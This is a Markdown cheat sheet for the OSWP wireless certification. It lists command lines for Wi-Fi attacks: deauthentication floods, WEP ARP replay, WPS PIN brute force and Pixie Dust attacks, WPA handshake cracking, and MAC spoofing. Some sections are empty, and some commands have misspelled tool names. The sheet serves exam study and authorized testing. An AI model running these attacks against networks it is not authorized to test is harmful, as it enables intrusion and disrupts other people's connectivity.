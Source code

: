 # OSWP cheat sheets

This cheat sheet based on "WiFi Hacking Mind Map - v1.0 by Jérémy Brun-Nouvion (https://github.com/koutto)"

## Monitoring
### Find all AP and connected devices
```
airodump-ng <interface> --wps --manufacturer --uptime --band <band>
```

### Monitor target AP
```
airodump-ng <interface> --wps --manufacturer --uptime --band <band> -c <channel> --bssid <bssid> -w <capture>
```
### Unhide ESSID
Set channel
```
iwconfig wlan0 channel <channel>
```
Catch beacon with ESSID (Hiden ESSID)
```
aireplay-ng -0 <deauth number> -a <AP MAC> <interface> 
aireplay-ng -0 <deauth number> -a <AP MAC> -c <Client MAC> <interface> #Some clients ignore broadcast deauthentications. If this is the case, you will need to send a deauthentication directed at the particular client.
```


## WEP attack

### Attack using Fake auth and ARP-replay (OPN)
```
sudo aireplay-ng -1 6000 -a <AP_MAC> -o 1 -q 10 -h <host_MAC> <interface> # Fake auth
sudo aireplay-ng -3 -b <AP_MAC> -h <host_MAC> <interface> # ARP replay
aircrack-ng <*.cap>
```

## Bypassing WEP (SKA)
```

```


## WPS attack
**Dependencies:** reaver

_Some APs have protections. AP might have PIN timeout after a series of failures. These APs then require either a timeout or a reset to remove the lock._

### Custom PIN association 
 
### Pixie Dust attack 
```
 reaver -i <interface> -b <AP_MAC> -K
```
 
### Bruteforce PIN attack 
```
sudo reaver -i <interface> -b <AP_MAC>
```
 
### Known PINs attack
```
reaver -i <interface> -b <AP_MAC> -p <PIN>
```
 
### Null PIN attack 
_Only a very few APs are vulnerable to this attack_
```
reaver -i <interface> -b <AP_MAC> -p "" -N
```

## WPA attack
### Handshake Capture (req. client) & Cracking
```
airdump-ng -c <channel> --bssid <AP_MAC> -w <capture> <interface>
aircrack-ng -a 2 -b <AP_MAC> -w <wordlist> <capture>
```
### PMKID Capture (client-less) & Cracking
```

```

## WPA Enterprise



## Connect to AP

### Open
```
iw <interface> connect <ESSID>
dhclient <interface>
```

### WEP
```
iw <interface> connect <ESSID> key 0:<key>
dhclient <interface>
```

### WPA2

Dependencies: wpasupplicant
```

wpa_passphrase "<ESSID>" <key> | sudo tee /etc/wpa_supplicant.conf
wpa_supplicant -B -c /etc/wpa_supplicant.conf -i <interface>
dhclient <interface>
```

### WPA enterprise

```
sudo dhclient <interface>
```

## Other
### MAC-spoofing
```
ip link set dev <interface> down
ip link set dev <interface> address <XX:XX:XX:XX:XX:XX>
ip link set dev <interface> up
```
### Prepare Attacker PC (Monitor mode)
```
airmon-ng check kill
airmon-ng start <interface>
OR
iw dev <interface> set monitor none
```
### Back to normal modee (Managed mode)
```
airmon-ng stop <Monitor interface>
systemctl start wpa_supplicant
systemctl start NetworkManager
```
### No associated devices
```
aireply-ng -0 100 -e <ESSID> <interface>
```